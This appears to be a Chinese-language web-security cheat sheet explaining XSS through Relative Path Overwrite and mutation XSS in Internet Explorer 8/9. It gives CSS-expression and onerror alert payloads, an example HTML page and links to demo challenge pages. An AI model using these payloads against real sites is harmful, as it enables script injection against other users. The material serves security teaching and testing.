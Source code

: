 # XSS with Relative Path Overwrite - IE 8/9 and lower

你需要这三个组件

```javascript
1) 允许CSS注入的XSS存储. : {}*{xss:expression(open(alert(1)))}
2) URL重写.
3) CSS样式表的相对寻址 : ../style.css
```

一个小的例子

```html
http://url.example.com/index.php/[RELATIVE_URL_INSERTED_HERE]
<html>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
<link href="[RELATIVE_URL_INSERTED_HERE]/styles.css" rel="stylesheet" type="text/css" />
</head>
<body>
Stored XSS with CSS injection - Hello {}*{xss:expression(open(alert(1)))}
</body>
</html>
```

漏洞的说明

> 母体元素会强制IE的文档模式兼容IE7 ，这是执行表达式所必需的。在一个现实的场景中，它可能是一个配置文件页面，或者可能是一个共享的状态更新，这些其他用户都可以看到。我们使用“open”来防止客户端DoS重复执行警报。 
>
> 一个简单的“rpo.php/” 的请求使相对样式将页面本身作为样式表加载。实际的请求是“/labs/xss_horror_show/chapter7/rpo.php/styles.css” 浏览器认为存在另一个目录，但实际的请求被发送到文档，这实际上就是RPO攻击的工作方式。

Demo 1 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo.php`
Demo 2 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo2.php/fakedirectory/fakedirectory2/fakedirectory3`
MultiBrowser : `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo3.php`

From : `http://www.thespanner.co.uk/2014/03/21/rpo/`

## Mutated XSS for Browser IE8/IE9

```javascript
<listing id=x>&lt;img src=1 onerror=alert(1)&gt;</listing>
<script>alert(document.getElementById('x').innerHTML)</script>
```

IE将多次读写(解码)HTML，攻击者XSS有效载荷将发生变化并执行。


## References

- [TODO](TODO)